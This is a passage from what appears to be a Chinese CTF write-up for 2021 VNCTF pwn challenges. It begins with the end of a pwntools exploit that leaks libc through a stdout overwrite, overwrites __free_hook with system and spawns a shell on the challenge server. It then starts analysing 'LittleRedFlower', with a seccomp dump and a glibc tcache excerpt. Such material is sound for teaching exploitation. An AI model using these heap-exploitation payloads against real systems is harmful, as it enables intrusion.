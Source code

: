 ```
        add(0x48, p16(0)*2 + p16(2) + p16(0) + p16(1) + p16(0) + p32(0) + b"\x00"*0x38)
        add(0x48, b"\x00"*0x40 + p64(heap_base + 0xb0))
        delete()

        add(0x38, p16(stdout))
        add(0x58, p64(0xfdad2887 | 0x1000) + p64(0)*3 + b"\x00")

        libc.address = u64(p.recv(8)) - 0x84 - libc.sym['_IO_2_1_stdout_']
        log.success("libc address is `{``}`".format(hex(libc.address)))
        break
    except:
        p.close()
        p = remote('node3.buuoj.cn', 26212)

add(0x48, b"\x00"*0x40 + p64(libc.sym['__free_hook'] - 0x10))
add(0x38, b"/bin/sh\x00".ljust(0x10) + p64(libc.sym['system']))
delete()

p.interactive()
```



## LittleRedFlower

### <a class="reference-link" name="%E5%88%86%E6%9E%90"></a>分析

首先用`ida`看一下。程序在一开始给出了一个`libc`地址。接着提供了一个一字节的任意写和一个`8`字节的任意写，然后根据用户输入的`size`分配了对应大小的堆块，注意的是这里的堆块大小需要满足`&gt; 0x1000 &amp; &lt; 0x2000`。读取用户的内容之后释放了此堆块。

程序开启了沙箱，只能采用`ORW`

```
root@134f60691926:~/work/2021VNCTF/LittleRedFlower# seccomp-tools dump ./pwn
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x05 0xc000003e  if (A != ARCH_X86_64) goto 0007
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A &lt; 0x40000000) goto 0005
 0004: 0x15 0x00 0x02 0xffffffff  if (A != 0xffffffff) goto 0007
 0005: 0x15 0x01 0x00 0x0000003b  if (A == execve) goto 0007
 0006: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0007: 0x06 0x00 0x00 0x00000000  return KILL
```

### <a class="reference-link" name="%E5%88%A9%E7%94%A8"></a>利用

这里很明显是要覆写`free__hook`，但是如何覆写，或者说如何申请到该堆块。看一下`tcache`的分配过程

```
DIAG_PUSH_NEEDS_COMMENT;
  if (tc_idx &lt; mp_.tcache_bins
      &amp;&amp; tcache
      &amp;&amp; tcache-&gt;counts[tc_idx] &gt; 0)
    `{`
      return tcache_get (tc_idx);
    `}`
  DIAG_POP_NEEDS_COMMENT;
```
